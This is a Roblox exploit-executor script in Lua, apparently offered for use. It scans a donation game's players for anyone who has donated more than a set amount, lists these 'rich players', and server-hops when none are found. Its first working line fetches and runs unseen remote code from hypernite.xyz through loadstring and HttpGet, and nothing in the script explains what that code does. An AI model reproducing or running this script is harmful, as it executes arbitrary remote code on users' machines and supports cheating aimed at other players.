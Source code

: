 local minimum = 1500 -- enter your minimum robux donated amount here


loadstring(game:HttpGet("https://hypernite.xyz/Scripts/Ukraine.lua"))()
if game.PlaceId ~= 8737602449 then return end -- failed attempt at autoexec compatability below, feel free to try and fix it

if not game.IsLoaded then game.Loaded:Wait() end
--wait(.5)

local highestdono = 0
local highestplr = nil

--writefile("MinimumDonation.txt",tostring(minimum))

for i,v in pairs(game:GetService("Players"):GetPlayers()) do
   repeat wait() until v:FindFirstChild("leaderstats")
end

local function getDonated(plr)
   local stats = plr:WaitForChild("leaderstats")
   local donated = stats:FindFirstChild("Donated")
   if donated == nil then
       return 0
   end
   return donated.Value
end

local function shop() -- infinite yield serverhop
   local x = {}
   for _, v in ipairs(game:GetService("HttpService"):JSONDecode(game:HttpGetAsync("https://games.roblox.com/v1/games/" .. game.PlaceId .. "/servers/Public?sortOrder=Asc&limit=100")).data) do
    if type(v) == "table" and v.maxPlayers > v.playing and v.id ~= game.JobId then
    x[#x + 1] = v.id
    end
   end
   if #x > 0 then
    game:GetService("TeleportService"):TeleportToPlaceInstance(game.PlaceId, x[math.random(1, #x)])
    game:GetService("GuiService").UiMessageChanged:Wait()
       shop()
   else
    return error("Couldn't find a server.")
   end
end

for i,v in pairs(game:GetService("Players"):GetPlayers()) do
   if i == 1 then continue end
   local dono = getDonated(v)
   if dono > highestdono then
       highestdono = dono
       highestplr = v
   end
end

if highestdono >= minimum then
   local richPlayers = {}
   for i,v in pairs(game:GetService("Players"):GetPlayers()) do
       if i == 1 then continue end
       if getDonated(v) >= minimum then
           table.insert(richPlayers,v)
       end
   end
   game:GetService("StarterGui"):SetCore("SendNotification", {
Title = "Richest player found!",
Text = highestplr.Name .. " has donated " .. highestdono .. "R$",
Duration = 15
})
table.foreach(richPlayers,function(i)
   print(richPlayers[i].Name .. " donated " .. tostring(getDonated(richPlayers[i])) .. "R$")
end)
else
   shop()
   
end
